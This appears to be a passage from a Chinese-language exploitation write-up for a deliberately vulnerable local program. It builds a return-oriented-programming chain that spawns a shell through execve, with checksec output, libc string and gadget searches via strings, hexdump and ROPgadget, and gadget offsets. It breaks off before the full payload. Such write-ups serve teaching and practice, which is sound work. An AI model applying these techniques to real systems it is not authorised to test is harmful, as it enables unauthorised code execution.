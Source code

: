 程序只开启了NX、PIE保护。

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

cat /proc/sys/kernel/randomize_va_space
0
```

首先，我们的目标是调用Shell，需要`__NR_execve`系统调用，它的系统调用号是59，放入`rax`寄存器内。

之后根据内核中`execve`的要求，我们需要提交第一个参数为Shell程序的路径，而命令行参数和环境变量参数在这里没有需求，从程序的返回变结果来看，不管是`main`函数还是`simple_overflow`函数都是没有接收参数的，因此`rsi`和`rdx`寄存器中保存的都是`libc`传递过来的参数，其中`rsi`和`rdx`分别对应主程序的命令行参数和环境变量参数。

此时调用shell时并不需要命令行参数`rsi`，我们需要直接运行Shell，而不是借助Shell运行某某东西，因此`rsi`可以清空，环境变量在此没有设置的必要，所以`rdx`也需要清空。

Linux下一般通过`/bin/sh`运行Shell，因此这里需要根据该字符串对文件进行检索获取相对位置。

```
借助strings工具检索：
strings -a -t x /usr/lib/libc.so.6 | grep "/bin/sh"
1aae28 /bin/sh

Linux下的od命令用于读取一段内容，然后将内容按照指定的格式打印出来
下面通过echo命令和管道符向od传递待翻译的内容
od命令内-t可以指定输出格式，x代表打印十六进制，C代表单个字节，c代表打印ASCII字符
echo "/bin/sh" | od -t xCc
0000000  2f  62  69  6e  2f  73  68  0a
          /   b   i   n   /   s   h  \n
/bin/sh对于的ASCII码：2f 62 69 6e 2f 73 68

根据二进制信息进行检索：
hexdump -C /usr/lib/libc.so.6 | grep "2f 62 69 6e 2f 73 68"
001aae20  63 00 2d 63 00 2d 2d 00  2f 62 69 6e 2f 73 68 00  |c.-c.--./bin/sh.|
```

该字符串会根据调用协议放入`rdi`寄存器内。

接下来要做的准备就是构造ROP。

函数的结尾处，有一个天然的`ret`指令（对应十六进制数据为0xc3），我们需要它带我们前面向寄存器存入参数的指令所在地。其中`pop rax`指令的十六进制数据为0x58，`pop rdi`指令的十六进制数据为0x5f，`pop rsi`指令的十六进制数据为为0x5e，`pop rdx`指令的十六进制数据为为0x5a。

如此构造有两种方式，一是`pop rax ; pop rdi ; xxx ; ret`，而是`pop rax ; ret ; pop rdi ; ret ; xxx`（交换顺序也可）。

```
hexdump -C /usr/lib/libc.so.6 | grep -i "58 5e 5f c3"

ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rax ; pop rsi ; pop rdi ; ret"
```

通过ROPgadget和hexdump工具检索会发现找不到与方式一匹配的指令。

```
pop rax ; ret：
hexdump -C /usr/lib/libc.so.6 | grep -i "58  c3"
000d0880  8b 47 2c 3b 46 2c 75 58  c3 0f 1f 80 00 00 00 00  |.G,;F,uX........|
ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rax ; ret"
0x00000000000d0887 : pop rax ; ret

pop rdi ; ret：
hexdump -C /usr/lib/libc.so.6 | grep -i "5f c3"
000fd8c0  5d 41 5e 41 5f c3 66 2e  0f 1f 84 00 00 00 00 00  |]A^A_.f.........|
ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdi ; ret"
0x00000000000fd8c4 : pop rdi ; ret

pop rsi ; ret：
```